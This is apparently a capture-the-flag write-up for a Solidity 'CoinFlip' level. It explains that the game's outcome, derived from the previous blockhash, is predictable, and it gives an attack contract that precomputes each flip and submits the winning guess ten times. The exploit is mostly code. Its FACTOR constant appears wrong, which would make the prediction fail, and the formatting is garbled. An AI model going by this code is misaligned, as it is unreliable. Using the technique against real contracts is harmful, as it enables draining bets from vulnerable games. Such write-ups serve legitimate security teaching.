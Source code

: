 Level 3: CoinFlip

Objective:

You must consecutively win the coin flip 10 times in a row.

Vulnerability:

It uses blockhash of the previous block and divides it to a huge constant to decide the coutcome.
Since blockhash and factor are known the outcome can be predicted.

Explanation:

We can do the same calculations in another contract. Predict whether the result will be true or false then submit the correct guess to the flip() function.
We repeat this 10 times in a row to win.

Solution:

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface CoinFlip {
function flip(bool \_guess) external returns (bool);
}
```
contract CoinFlipHack {
address public target;
uint256 FACTOR = 1157920892373161954235709850086879078532699846656405640394575840079131296399;
    constructor(address _target) {
        target = _target;
    }
    function predictAndFlip() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool guess = coinFlip == 1 ? true : false;
        CoinFlip(target).flip(guess);
    }
}
```
put the contracts address(await contract.adrress) in \_target then call predictAndFLip() 10 times

you can check using await contract.consecutiveWins()
if it returns 10 submit the level.

Key Takeaways:

Never use blockhash for randomness as attackers might predict or manipulate it.
